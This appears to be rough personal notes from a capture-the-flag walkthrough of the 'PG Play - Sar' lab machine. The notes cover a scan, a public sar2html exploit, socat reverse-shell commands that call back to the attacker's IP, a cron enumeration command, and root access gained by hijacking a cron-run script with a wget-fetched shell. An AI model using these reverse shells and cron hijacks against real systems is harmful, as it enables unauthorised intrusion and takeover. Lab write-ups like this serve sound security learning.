 # PG Play - Sar
## Author: Love Sharma
## Released on: Jul 20, 2020
### Difficulty: Easy
### Community Difficulty: Easy
### Description: This is not a conventional foothold-privesc type of machine. Only proof.txt is a valid flag.
| Step: | Notes: |
| --- | --- |
| 1. | I ran a all ports nmap scan without a T4 switch to get started and ran another in parallel for speed with a T4 switch and of only common ports. |
| 2. | My fast NMAP scan found port 80 opened out of habit I manually checked for common files in the web directory, and found sar2html in robots.txt. |
| 3. | I found an exploit for sar2html which I figured I'd test out real quick. https://github.com/AssassinUKG/sar2HTML&ved=2ahUKEwi64tH145iFAxWepVYBHRJtC3gQFnoECAsQAQ&usg=AOvVaw09b6JcvNV9blzX1NKL5321 |
| 4. | This gave me a foothold with a dumb shell as the www user, I now needed to spawn a tty shell. |
| 5. | I tested a few different types of tty shell spawns, php, python, nc (no -e because of version issue but the nc tty without a -e didn't work either) the one that worked was a socat used below commands |
| 5.1 | On my attack box ```socat file:`tty`,raw,echo=0 tcp-listen:4444``` |
| 5.2 | On the target ```socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.45.175:4444``` | 
| 6. | I'd transferred linpeas over earlier with the dumb shell but made it a priority to get a tty first. I found that I had access to the /var/spool/cron/crontabs folder which included cron jobs for the root user. I discovered that a script called finally.sh ran on every 5th minute as a cron job this file was only executable and readable by me. |




echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin


/usr/sbin

Didn't have a tty shell so found a 
Tested a few different types, php, python, nc (no -e because of version issue but the nc tty without a -e didn't work either) the one that worked was a socat used below commands


On Kali (listen):

1
socat file:`tty`,raw,echo=0 tcp-listen:4444
On Victim (launch):

1
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.45.175:4444

socat once I used the sarhtml exploit to get a dumb shell to convert to a tty



Found with linpeas that I was able to view the crontabs file (/var/spool/cron/crontabs) could have found it with a command after picture though also quicker


cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"


Found that the finally script ran as root from the cron job and all it did was execute the write.sh which I was able to modify, found it horrendous trying to modify in the slow tty shell so I created a new one and tested all the same reverse shells like a dummy that didn't work earlier and realised socat should work since it worked earlier and moved it over with a http server and wget in between the cron jobs and listened on the port 1337 with the same socat listener command used earlier to get a tty shell









